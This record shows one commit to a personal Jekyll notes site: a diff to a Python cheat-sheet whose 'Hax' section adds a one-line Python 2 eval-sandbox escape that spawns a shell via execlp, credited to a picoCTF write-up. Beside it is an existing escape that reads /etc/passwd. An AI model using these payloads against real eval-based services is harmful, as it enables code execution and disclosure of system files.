

Before and after one commit to betaveros/cs, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 2353 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Python shell eval

```diff
--- a/_includes/python.html
+++ b/_includes/python.html
@@ -99,6 +99,9 @@ time.sleep(0.5) # 0.5 seconds</pre>
 <h3>Hax</h3>
 <pre>[t for t in (1).__class__.__bases__[-1].__subclasses__() if t.__name__ == 'file'][0]('/etc/passwd').read()</pre>
 <p>(from <a href="http://eev.ee/blog/2012/03/24/on-principle/"><cite>On principle</cite> (eevee)</a>)</p>
+<p>Want a shell instead?</p>
+<pre>[x for x in().__class__.__bases__[0].__subclasses__() if x.__name__ == "catch_warnings"][0].__init__.func_globals["linecache"].__dict__["os"].execlp("sh","sh")</pre>
+<p>(from <a href="http://jonathanzong.com/picoctf/2013/05/07/python-eval-5-140">Jonathan Zong's picoCTF 2013 writeup</a>)</p>
 <h3>pygmentize</h3>
 <p>has complicated command line flags:</p>
 <pre>pygmentize -f html -l python -O full,style=tango -o out.html src.py</pre>
```
